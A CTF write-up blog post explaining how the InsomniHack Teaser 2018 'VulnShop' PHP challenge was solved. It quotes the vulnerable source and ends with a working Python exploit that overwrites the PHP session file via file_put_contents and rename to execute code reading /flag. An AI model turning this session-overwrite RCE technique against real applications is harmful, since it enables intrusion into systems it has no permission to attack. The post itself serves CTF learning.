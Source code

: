 ```yaml
---
layout: post
title:  "Remote Code Execution via Session - InsomniHack Teaser 2018"
image: ''
date:   2018-01-21 00:06:31
tags:
- Web Security, CTF, Insomnihack, RCE, Session overwrite
description: 'InsomniHack CTF Vulnshop Web Challenge writeup'
categories:
- Web, CTF, PHP-RCE
---
```



This year's Insomni'Hack had pretty much decent challenges even though it took some time before my team could solve. The first challenge being, `VulnShop`. A pretty straightforward description with a few functionalities in the page along with the source code made it neat and clean.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/firstpage"}}" alt="">
</figure>


Going through the source code, two particular function caught my attention: `captcha` and `captcha-verify`.

{% highlight php %}
case 'contactus':
  echo "<p>You can't contact us for the moment, but it will be available later.</p>";
  $\_SESSION['challenge'] = rand(100000,999999);
  break;
case 'captcha':
  if(isset($\_SESSION['challenge'])) echo $\_SESSION['challenge'];
  // Will make an image later
    touch($\_SESSION['challenge']);
    break;
case 'captcha-verify':
// verification functions take a file for later, when we'll provide more way of verification
  function verifyFromString($file, $response) {
  if($\_SESSION['challenge'] === $response) return true;
  else return false;
 }  
{% endhighlight %}

The `$_SESSION['challenge']` does something very interesting which is basically creating a file after calling the `contactus` page
which basically stores a random number between the specified value and in return requesting for `captcha` creates a file with the same generated number.

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/filecreation"}}" alt="">
</figure>


Let that be pretty much and let's move ahead in the source code. The very next piece of code,

{% highlight php %}
if(isset($\_REQUEST['answer']) && isset($\_REQUEST['method']) && function_exists($\_REQUEST['method'])){
    $\_REQUEST['method']("./".$_SESSION['challenge'], $_REQUEST['answer']);
}
{% endhighlight %}

we can see how the request is made, mainly two parameters as `GET` request.

The next part is the main aim of getting the flag. So according to the description and what we understood from the source code, what we can do is, we will make it into 3 steps:
1) Create a file by calling `contactus` and `captcha`
2) Write whatever we want to the file, say `123456`
3) Copy the contents of that particular file to the session variable
4) Execute it

Also there were a few function which were disabled that could be seen in `phpinfo`:

<figure class="foto-legenda">
	<img src="{{ "/assets/img/writeup2/disabled_func"}}" alt="">
</figure>


The script below does all in one go:

{% highlight python %}
#Author gkrishna
#Member of Teambi0s
#insomnihack_teaser 2018
import sys
import requests

url = "http://vulnshop.teaser.insomnihack.ch/"
s = requests.Session()

s.get(url+"?page=contactus")
s.get(url+"?page=captcha")
r = s.get(url+'?page=captcha-verify&method=file_put_contents&answer=challenge|s:35:"print_r(file_get_contents(\'/flag\'))";')
s.cookies.get_dict()['PHPSESSID']
val = "Value of Cookie = " + s.cookies.get_dict()['PHPSESSID']

s.get(url+"?page=captcha-verify&method=rename&answer=/var/lib/php/sessions/sess_"+s.cookies.get_dict()['PHPSESSID'])
r = s.get(url+"?page=captcha-verify&method=verifyFromMath&answer=1")

print r.text
{% endhighlight %}

Towards the end, we call the function `verifyFromMath` which returns the desired string.

Catch me in <a href="https://twitter.com/gkgkrishna33">Twitter</a>.
